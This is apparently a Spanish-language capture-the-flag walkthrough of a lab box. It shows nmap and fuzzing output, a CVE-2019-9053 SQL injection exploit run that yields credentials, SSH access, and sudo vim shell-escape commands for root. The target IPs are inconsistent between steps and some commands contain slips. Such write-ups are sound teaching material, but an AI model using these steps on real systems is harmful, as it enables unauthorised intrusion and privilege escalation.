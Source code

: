 ### Scan
```css
nmap -p- --open --min-rate 3000 -sS -n -vvv -Pn 10.10.68.49
```
### 
```css
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.33.185
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.64 seconds
```

### El puerto 21 tiene certificaciones por defecto para ingresar como anomymous


### haciendo fuzzing conseguimos el directorio "'/simple'" 
### hacemos fuzzing al directorio /simple 
```css
/.php              (Status: 403) [Size: 298]
/.html             (Status: 403) [Size: 299]
/index.php         (Status: 200) [Size: 19913]
/modules           (Status: 301) [Size: 321] [--> http://10.10.14.180/simple/modules/]
/uploads           (Status: 301) [Size: 321] [--> http://10.10.14.180/simple/uploads/]
/doc               (Status: 301) [Size: 317] [--> http://10.10.14.180/simple/doc/]
/admin             (Status: 301) [Size: 319] [--> http://10.10.14.180/simple/admin/]
/assets            (Status: 301) [Size: 320] [--> http://10.10.14.180/simple/assets/]
/lib               (Status: 301) [Size: 317] [--> http://10.10.14.180/simple/lib/]
/install.php
```

### conseguimos enumerar la version de aparentemente la pg:

```css
CMS Made Simple version 2.2.8
```

### buscamos un exploit. en www.exploit.db.com conseguimos exploit de Python que explota una vulnerabilidad de inyección de SQL (CVE-2019-9053). La vulnerabilidad permite a un atacante realizar una inyección de SQL en el sistema y extraer información sensible de la base de datos.
#### Ejecutamos el exploit y obtenemos resultados:
```css

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[*] Try: secret
```

### intentamos acceder via ssh que esta habilitado en el puerto 2222
```css
ssh mitch@10.10.45.134
password: secret 
```

# Enumeración básica sistema
```css
find / -perm -u=s -type f 2>/dev/null
sido -l 
```
# Permisos sudo
```css
con el usuario mitch tenemos permisos para ejecutar /usr/bin/vim 

ejecutamos: sudo vim -c ':!/bin/sh'
```

### otras opciones
```css

	sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

	sudo vim -c ':lua os.execute("reset; exec sh")'
```